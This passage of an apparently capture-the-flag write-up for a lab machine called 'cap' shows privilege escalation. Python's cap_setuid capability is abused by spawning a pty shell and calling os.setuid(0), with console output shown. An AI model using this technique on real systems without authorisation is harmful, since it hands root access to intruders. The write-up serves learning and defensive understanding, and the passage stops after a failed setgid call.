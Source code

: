 <p><code class="language-plaintext highlighter-rouge">cap_seduid</code> has some good uses on binaries, but on something like Python which can take arbitrary user input, it is dangerous.</p>

<h4 id="abusing-capabilities">Abusing Capabilities</h4>

<p>I’ll abuse the <code class="language-plaintext highlighter-rouge">cap_setuid</code> to change the user id of the current process to something else, like I observed above. If this capabilities just applied to the webserver, there would be no issue. But I can also open a Python terminal:</p>

<div class="language-console highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="gp">nathan@cap:/var/www/html$</span><span class="w"> </span>python3
<span class="go">Python 3.8.5 (default, Jan 27 2021, 15:41:15) 
[GCC 9.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
</span><span class="gp">&gt;&gt;&gt;</span><span class="w">
</span></code></pre></div></div>

<p>I can use a familiar line to get a shell:</p>

<div class="language-console highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="gp">&gt;&gt;&gt;</span><span class="w"> </span><span class="kn">import</span> <span class="n">pty</span>
<span class="gp">&gt;&gt;&gt;</span><span class="w"> </span><span class="n">pty</span><span class="p">.</span><span class="nf">spawn</span><span class="p">(</span><span class="sh">"</span><span class="s">bash</span><span class="sh">"</span><span class="p">)</span>
<span class="gp">nathan@cap:/var/www/html$</span><span class="w"> </span><span class="nb">id</span>
<span class="go">uid=1001(nathan) gid=1001(nathan) groups=1001(nathan)
</span></code></pre></div></div>

<p>That’s as expected. I’ll exit:</p>

<div class="language-console highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="gp">nathan@cap:/var/www/html$</span><span class="w"> </span><span class="nb">exit</span>
<span class="go">0
</span><span class="gp">&gt;&gt;&gt;</span><span class="w">
</span></code></pre></div></div>

<p>Back at the Python prompt, I’ll set the userid for this process to root:</p>

<div class="language-console highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="gp">&gt;&gt;&gt;</span><span class="w"> </span><span class="kn">import</span> <span class="n">os</span>
<span class="gp">&gt;&gt;&gt;</span><span class="w"> </span><span class="n">os</span><span class="p">.</span><span class="nf">setuid</span><span class="p">(</span><span class="mi">0</span><span class="p">)</span>
</code></pre></div></div>

<p>I can try to set the group id, but I don’t have that permission:</p>

<div class="language-console highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="gp">&gt;&gt;&gt;</span><span class="w"> </span><span class="n">os</span><span class="p">.</span><span class="nf">setgid</span><span class="p">(</span><span class="mi">0</span><span class="p">)</span>
<span class="go">Traceback (most recent call last):
  File "&lt;stdin&gt;", line 1, in &lt;module&gt;
PermissionError: [Errno 1] Operation not permitted
</span></code></pre></div></div>
